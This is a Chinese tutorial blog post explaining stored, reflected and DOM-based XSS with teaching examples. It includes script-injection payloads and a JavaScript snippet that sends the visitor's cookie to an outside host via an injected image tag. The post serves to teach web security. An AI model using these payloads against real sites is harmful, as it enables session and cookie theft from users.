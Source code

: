 ```yaml
---
title: 什么是 XSS 攻击
date: 2017-07-15 18:03:31
tags:
  - xss
  - security
---
```


XSS 的全称是 Cross Site Scripting，为了避免同 CSS 的缩写重复所以用了 XSS 代替，相比于上一篇介绍的 CSRF 攻击，XSS 攻击的威力更大，它可以直接在用户当前正在浏览的页面运行自定义的 javascript 脚本，操作得当的话可以污染浏览这个页面的所有用户。

XSS 主要分为三类：存储型、反射型和 DOM 型（目前主流是前后端分离，反射型不如 DOM 型常见），下面我们依次了解一下每种攻击方式有何不同。

## 存储型
比起存储型这个更为广泛的叫法，持久型跨站脚本（Persistent Cross-Site Scripting）相对来说更贴切一些，这类攻击通常发生在用户生成内容的地方（UGC）比如评论、博客之类的，由于用户输入被存储在了数据库，每个浏览到恶意输入的用户都可能中招，举个例子：

```html
// 以模版的形式展示用户评论
<div><%= comment %></div>
```

假设用户的评论内容是：`</div><script>alert('xss')</script><div>` 那么例子中的 `div` 会侧漏导致浏览这个页面的用户的浏览器都会执行 script 中的内容。

## 反射型和 DOM 型
这两类我们放在一起说，反射型 XSS 依赖用户操作，通常发生在页面需要直接使用 url 参数的地方，比如搜索页面，如果对 url 中的参数未加以防范很容易中招，举个例子：

```html
<div>您搜索的<%= query %>不存在</div>
```

攻击者伪造的 url：`https://shijianan.com?query="</div><script>alert('xss')</script>` 原理类似前面提到的存储型攻击，但是相对攻击范围较小，因此攻击者通常需要各种方式引诱用户点击恶意链接。

DOM 型则是基于前端的，如果直接用 innerHTML、document.write 这类 API 的时候对用户输入不加以防范容易出现这类 XSS 攻击，举个例子：

```js
comment = '<image src="https://shijianan.com?cookie=' + document.cookie + '" />';
const c = document.querySelector('comment');
c.innerHTML = comment;
```

通过注入一个 image 标签将用户的 cookie 就会被发送到指定页面了，因此我们在使用 vue 之类的框架的时候都会明确警示我们相关风险。

